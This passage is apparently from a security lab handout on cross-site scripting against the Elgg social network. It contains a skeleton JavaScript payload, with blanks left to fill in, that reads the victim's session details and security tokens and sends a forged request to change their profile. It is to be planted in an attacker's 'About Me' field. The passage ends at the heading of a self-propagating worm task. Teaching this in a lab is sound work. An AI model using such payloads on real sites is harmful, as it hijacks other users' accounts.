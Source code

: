 \begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  
  var sendurl=...;     //FILL IN
  
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

Similar to Task 4, the above code should be placed in the \texttt{"About Me"} field of Samy's
profile page, and the Text mode should be enabled before entering the above JavaScript code.


\paragraph{Questions.} Please answer the following questions:

\begin{itemize}
\item \textbf{Question 3:} Why do we need Line ? Remove this line, and repeat 
your attack. Report and explain your observation.
\end{itemize}
 



\subsection{Task 6: Writing a Self-Propagating XSS Worm}


